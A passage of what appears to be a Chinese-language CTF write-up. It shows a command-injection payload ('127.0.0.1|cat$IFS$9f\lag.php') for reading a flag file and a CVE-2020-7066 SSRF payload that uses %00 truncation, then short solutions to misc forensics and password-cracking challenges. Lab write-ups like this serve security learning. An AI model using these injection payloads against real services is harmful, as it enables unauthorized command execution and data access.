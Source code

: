 ```php
    echo "<pre>";
    print_r($a);
    echo "</pre>";
} Don't hack me!!!!!
```

用|隔断命令，最后构造出payload

```
127.0.0.1|cat$IFS$9f\lag.php
```







### cve-2020-7066

#### 考点：cve-2020-7066漏洞

看到cve直接百度查找这个漏洞的相关记录

其实就是get_header()的CVE。这个函数特点就是会去请求url并返回header头部。**但是CVE告诉我们，如果是用%00截断，就可能让命令去请求用户的可控网址。**

提示本地访问，那就直接127.0.0.1

```
/?url=http://127.0.0.1%00www.example.php
```

![2020温职院CTF_cve.png](https://antlers.oss-cn-hangzhou.aliyuncs.com/blog_images/CTF/2020%E6%B8%A9%E8%81%8C%E9%99%A2CTF_cve.png)



## Misc

### 听个歌放松一下

歌曲封面就有flag



### 简单的流量

我们追踪一下TCP流，当流为5时我们看到的flag

![简单的流量](https://antlers.oss-cn-hangzhou.aliyuncs.com/blog_images/CTF/2020%E6%B8%A9%E8%81%8C%E9%99%A2CTF_%E7%AE%80%E5%8D%95%E7%9A%84%E6%B5%81%E9%87%8F.png)



### 爆破是门艺术

我们解压后先看图片，这个里面给了密码提示（12位，开头是2020）

![爆破是门艺术](https://antlers.oss-cn-hangzhou.aliyuncs.com/blog_images/CTF/2020%E6%B8%A9%E8%81%8C%E9%99%A2CTF_%E7%88%86%E7%A0%B4%E6%98%AF%E9%97%A8%E8%89%BA%E6%9C%AF_1.png)

直接爆破，设置好参数
